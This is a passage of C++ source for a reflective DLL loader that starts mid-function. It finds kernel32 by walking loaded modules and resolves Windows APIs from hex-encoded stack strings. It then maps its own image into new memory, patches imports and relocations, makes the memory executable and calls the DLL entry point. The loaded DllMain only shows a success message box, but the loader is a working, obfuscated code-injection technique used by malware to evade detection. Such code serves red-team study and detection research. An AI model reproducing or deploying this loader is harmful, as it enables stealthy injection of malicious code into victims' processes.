kernel32_base = (DWORD_PTR)module_entry->DllBase;
}
}
current_module = current_module->Flink;
}
return kernel32_base;
}
__forceinline FARPROC get_proc_address(DWORD_PTR module, LPCSTR proc_string) {
LPBYTE base_address = (LPBYTE)module;
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)module;
if (dos_header->e_magic != IMAGE_DOS_SIGNATURE) return 0;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base_address + dos_header->e_lfanew);
PIMAGE_OPTIONAL_HEADER optional_header = &nt_header->OptionalHeader;
DWORD_PTR export_data_directory = optional_header->DataDirectory[0].VirtualAddress;
PIMAGE_EXPORT_DIRECTORY export_directory = (PIMAGE_EXPORT_DIRECTORY)(base_address + export_data_directory);
DWORD_PTR function_number = export_directory->NumberOfNames;
PDWORD function_address = (PDWORD)(base_address + export_directory->AddressOfFunctions);
PWORD ord = (PWORD)(base_address + export_directory->AddressOfNameOrdinals);
PDWORD function_name_address = (PDWORD)(base_address + export_directory->AddressOfNames);
for (DWORD i = 0; i < function_number; i++) {
char* temp = (char*)(function_name_address[i] + base_address);
if (compare_string(temp, proc_string) == 0) {
return (FARPROC)(function_address[ord[i]] + base_address);
}
}
return NULL;
}
inline DWORD_PTR memory_copy(DWORD_PTR destination, DWORD_PTR source, SIZE_T length) {
LPBYTE src = (LPBYTE)source;
LPBYTE des = (LPBYTE)destination;
while (length--) {
*des++ = *src++;
}
return destination;
}
__declspec(noinline) static DWORD_PTR get_rip() {
return (DWORD_PTR)_ReturnAddress(); // return the value of RIP register
}
__forceinline DWORD_PTR identify_new_base() {
DWORD_PTR rip = get_rip(); // return to location of ReflectiveLoader function
while (true) {
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)rip;
if (dos_header->e_magic == IMAGE_DOS_SIGNATURE) { // check for the mz
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(rip + dos_header->e_lfanew);
if (nt_header->Signature == IMAGE_NT_SIGNATURE) { // double check with PE signature
break;
}
}
rip--;
}
return rip;
}
extern "C" __declspec(dllexport) DWORD_PTR ReflectiveLoader() {
char kernel32_string[] = { '\x4b', '\x45', '\x52', '\x4e', '\x45', '\x4c', '\x33', '\x32', '\x2e', '\x44', '\x4c', '\x4c', 0 };
char get_proc_string[] = { '\x47', '\x65', '\x74', '\x50', '\x72', '\x6f', '\x63', '\x41', '\x64', '\x64', '\x72', '\x65', '\x73', '\x73', 0 };
char load_library_string[] = { '\x4c', '\x6f', '\x61', '\x64', '\x4c', '\x69', '\x62', '\x72', '\x61', '\x72', '\x79', '\x41', 0 };
char virtual_alloc_string[] = { '\x56', '\x69', '\x72', '\x74', '\x75', '\x61', '\x6c', '\x41', '\x6c', '\x6c', '\x6f', '\x63', 0 };
char read_proc_memory_string[] = {'\x52', '\x65', '\x61', '\x64', '\x50', '\x72', '\x6f', '\x63', '\x65', '\x73', '\x73', '\x4d', '\x65', '\x6d', '\x6f', '\x72', '\x79', 0};
char get_cur_proc_string[] = {'\x47', '\x65', '\x74', '\x43', '\x75', '\x72', '\x72', '\x65', '\x6e', '\x74', '\x50', '\x72', '\x6f', '\x63', '\x65', '\x73','\x73', 0 };
char virtual_protect_string[] = { '\x56','\x69','\x72','\x74','\x75','\x61','\x6c','\x50','\x72','\x6f','\x74','\x65','\x63','\x74',0 };
DWORD_PTR dll_base = identify_new_base(); // get the base address of raw in memory
PIMAGE_DOS_HEADER dos_header_raw = (PIMAGE_DOS_HEADER)dll_base;
PIMAGE_NT_HEADERS nt_header_raw = (PIMAGE_NT_HEADERS)(dll_base + dos_header_raw->e_lfanew);
DWORD dll_size = nt_header_raw->OptionalHeader.SizeOfImage; // read from raw
// resolve kernel32 and functions
DWORD_PTR kernel32_base = get_module(kernel32_string); //stack string as before
GETPROCADDRESS p_GetProcAddress = (GETPROCADDRESS)get_proc_address(kernel32_base, get_proc_string);
VIRTUALALLOC p_VirtualAlloc = (VIRTUALALLOC)p_GetProcAddress((HMODULE)kernel32_base, virtual_alloc_string);
// create new memory on target process
LPVOID new_image_base = p_VirtualAlloc(NULL, dll_size, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
DWORD_PTR base_address = (DWORD_PTR)new_image_base;
READPROCMEMORY p_ReadProcessMemory = (READPROCMEMORY)p_GetProcAddress((HMODULE)kernel32_base, read_proc_memory_string);
GETCURRENTPROCESS p_GetCurrentProcess = (GETCURRENTPROCESS)p_GetProcAddress((HMODULE)kernel32_base, get_cur_proc_string);
DWORD size_of_header = nt_header_raw->OptionalHeader.SizeOfHeaders;
//// copy headers from raw byte to new memory
memory_copy(base_address, dll_base, size_of_header);
// define header in new memory
PIMAGE_DOS_HEADER dos_header = (PIMAGE_DOS_HEADER)base_address;
PIMAGE_NT_HEADERS nt_header = (PIMAGE_NT_HEADERS)(base_address + dos_header->e_lfanew);
//// copy all sections from raw byte to new memory
DWORD number_of_section = nt_header_raw->FileHeader.NumberOfSections;
PIMAGE_SECTION_HEADER section_header = IMAGE_FIRST_SECTION(nt_header_raw);
for (DWORD i = 0; i < number_of_section; i++) {
DWORD_PTR section_on_raw_bytes = dll_base + section_header[i].PointerToRawData;
DWORD_PTR section_on_memory = base_address + section_header[i].VirtualAddress;
if (section_header[i].SizeOfRawData > 0) {
memory_copy(section_on_memory, section_on_raw_bytes, section_header[i].SizeOfRawData);
}
}
// fix value of function in import table (in new memory)
PIMAGE_DATA_DIRECTORY import_data_directory = &nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
PIMAGE_IMPORT_DESCRIPTOR import_descriptor = (PIMAGE_IMPORT_DESCRIPTOR)(base_address + import_data_directory->VirtualAddress);
LOADLIBRARYA p_LoadLibraryA = (LOADLIBRARYA)p_GetProcAddress((HMODULE)kernel32_base, load_library_string);
while (import_descriptor->Name != NULL) {
HMODULE module_address = p_LoadLibraryA((LPCSTR)(base_address + import_descriptor->Name));
if (module_address) {
PIMAGE_THUNK_DATA function_array = (PIMAGE_THUNK_DATA)(base_address + import_descriptor->FirstThunk);
while (function_array->u1.AddressOfData != NULL) {
if (IMAGE_SNAP_BY_ORDINAL(function_array->u1.Ordinal)) {
LPCSTR function_ord = (LPCSTR)IMAGE_ORDINAL(function_array->u1.Ordinal);
function_array->u1.Function = (DWORD_PTR)p_GetProcAddress(module_address, function_ord);
}
else {
PIMAGE_IMPORT_BY_NAME function_raw = (PIMAGE_IMPORT_BY_NAME)(base_address + function_array->u1.AddressOfData);
function_array->u1.Function = (DWORD_PTR)p_GetProcAddress(module_address, (LPCSTR)function_raw->Name);
}
function_array++; // next thunk (import by name)
}
}
import_descriptor++; // move to next import descriptor
}
// perform image base relocations
IMAGE_DATA_DIRECTORY relocations = nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
DWORD_PTR relocationTable = relocations.VirtualAddress + (DWORD_PTR)base_address;
DWORD relocationsProcessed = 0;
DWORD_PTR deltaImageBase = (DWORD_PTR)base_address - (DWORD_PTR)nt_header->OptionalHeader.ImageBase;
while (relocationsProcessed < relocations.Size)
{
PBASE_RELOCATION_BLOCK relocationBlock = (PBASE_RELOCATION_BLOCK)(relocationTable + relocationsProcessed);
relocationsProcessed += sizeof(BASE_RELOCATION_BLOCK);
DWORD relocationsCount = (relocationBlock->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
PBASE_RELOCATION_ENTRY relocationEntries = (PBASE_RELOCATION_ENTRY)(relocationTable + relocationsProcessed);
for (DWORD i = 0; i < relocationsCount; i++)
{
relocationsProcessed += sizeof(BASE_RELOCATION_ENTRY);
if (relocationEntries[i].Type == 0)
{
continue;
}
DWORD_PTR relocationRVA = relocationBlock->PageAddress + relocationEntries[i].Offset;
DWORD_PTR addressToPatch = 0;
p_ReadProcessMemory(p_GetCurrentProcess(), (LPCVOID)((DWORD_PTR)base_address + relocationRVA), &addressToPatch, sizeof(DWORD_PTR), NULL);
addressToPatch += deltaImageBase;
memory_copy((DWORD_PTR)base_address + relocationRVA, addressToPatch, sizeof(DWORD_PTR));
}
}
VIRTUALPROTECT p_VirtualProtect = (VIRTUALPROTECT)p_GetProcAddress((HMODULE)kernel32_base, virtual_protect_string);
DWORD old_protect;
p_VirtualProtect(new_image_base, dll_size, PAGE_EXECUTE_READWRITE, &old_protect);
DLLENTRY DllEntry = (DLLENTRY)((DWORD_PTR)base_address + nt_header->OptionalHeader.AddressOfEntryPoint);
(*DllEntry)((HINSTANCE)base_address, DLL_PROCESS_ATTACH, 0);
p_VirtualProtect(new_image_base, dll_size, PAGE_NOACCESS, &old_protect);
return (DWORD_PTR)base_address; // Im trying to delete the execute memory but just can not find the way
}
#pragma optimize("", on)
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
switch (ul_reason_for_call) {
case DLL_PROCESS_ATTACH:
MessageBoxA(NULL, "Reflective DLL Injected Successfully!", "Alert", MB_OK);
break;
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
}
return TRUE;
}